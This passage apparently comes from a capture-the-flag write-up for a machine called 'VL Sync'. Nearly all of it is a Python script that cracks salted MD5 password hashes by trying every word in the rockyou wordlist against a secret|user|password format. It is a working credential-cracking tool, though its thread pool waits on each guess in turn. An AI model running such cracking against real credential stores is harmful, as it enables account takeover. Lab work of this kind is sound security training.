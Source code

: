 ```php
```

Created a Python script to crack the MD5 hashes.

```python
import argparse
import hashlib
import sys
import time
from concurrent.futures import ThreadPoolExecutor

secure_string = '<REDACTED>'

def brute_force(hash, user, password):
    formatted_string = f'{secure_string}|{user}|{password}'
    formatted_hash = hashlib.md5(formatted_string.encode('ISO-8859-1')).hexdigest()
    if hash == formatted_hash:
        print(f"\n[+] Cracked: {password}")
        return True
    return False
    
def set_arguments():
    parser = argparse.ArgumentParser(
        description="VL Sync exploit"
    )
    parser.add_argument('--user', dest='user', required=True)
    parser.add_argument('--hash', dest='hash', required=True)
    return parser.parse_args()

def main():
    args = set_arguments()
    rockyou_path = '/usr/share/wordlists/rockyou.txt'
    try:
        start_time = time.time()
        with open(rockyou_path, 'r', encoding='ISO-8859-1') as f:
            hash = args.hash
            user = args.user
            with ThreadPoolExecutor(max_workers=50) as executor:
                for password in f:
                    process = executor.submit(brute_force, hash, user, password.strip())
                    if process.result():
                        print("\n[+] Script finished successfully")
                        sys.exit(0)
                else:
                    print("\n[+] Couldn't crack the hash :(")
                    sys.exit(0)

    except KeyboardInterrupt:
        print("\n[!] Keyboard interrumpt detected. Quitting!")
        sys.exit(1)

    finally:
        end_time = time.time()
        print(f"\n[+] Total time: {round(end_time - start_time, 2)} s")

main()
```
